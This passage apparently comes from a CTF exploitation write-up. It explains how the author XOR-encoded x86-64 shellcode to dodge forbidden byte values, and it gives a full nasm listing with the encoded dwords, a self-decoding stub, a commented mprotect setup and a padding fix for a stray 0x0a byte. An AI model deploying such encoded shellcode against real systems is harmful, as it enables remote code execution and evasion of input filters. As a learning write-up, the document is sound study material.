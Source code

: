 This output the encoded shellcode as an assembly file. Using `nasm`, I could build it into shellcode again. For local testing, I included a call to `mprotect` and set the value of `rax` to the start of the shellcode, just like the situation on the remote server. The layout of the built shellcode (first encrypted bytes, then the decoder) is done on purpose: it avoids bad chars in the `xor dword [rax+offset]` instructions. The value for the offset should not be too high, as that would introduce bytes in the range `0x40` to `0x65`...

```
bits 64
_start:

;mov rax, 10
;mov rdi, 0x400000
;mov rsi, 0x1000
;mov rdx, 7
;syscall
;lea rax, [_decoder]

_shellcode:
jmp _decoder
_shellcode0 dd 0x70d02169
_shellcode1 dd 0x7a7e747f
_shellcode2 dd 0x151f7a6f
_shellcode3 dd 0x976912a0
_shellcode4 dd 0x69151fe7
_shellcode5 dd 0x1f866987
_shellcode6 dd 0x7011a015
_shellcode7 dd 0xd3151f7f

_decoder:
xor dword [rax+_shellcode0-_shellcode], 0x20101021
xor dword [rax+_shellcode1-_shellcode], 0x10202020
xor dword [rax+_shellcode2-_shellcode], 0x10102010
xor dword [rax+_shellcode3-_shellcode], 0x10211010
xor dword [rax+_shellcode4-_shellcode], 0x21101010
xor dword [rax+_shellcode5-_shellcode], 0x10102110
xor dword [rax+_shellcode6-_shellcode], 0x20101010
xor dword [rax+_shellcode7-_shellcode], 0x10101020

jmp _shellcode0
```

Feeling quite chuffed, I assembled it and checked for bad chars... there was one! A `0x0a` byte snuck in. This was because the addresses of the encoded dwords were, relative to `rax`: 2, 6, 10, 14, etc. I needed to add an offset, which I did:

```
_shellcode:
jmp _decoder
nop
nop
```

This took care of the problem. Yes, this shellcode could have been shorter, probably. A lot of the constants look similar, so I could have probably made the decoder smaller by selecting a 'magic' constant. However, it worked!
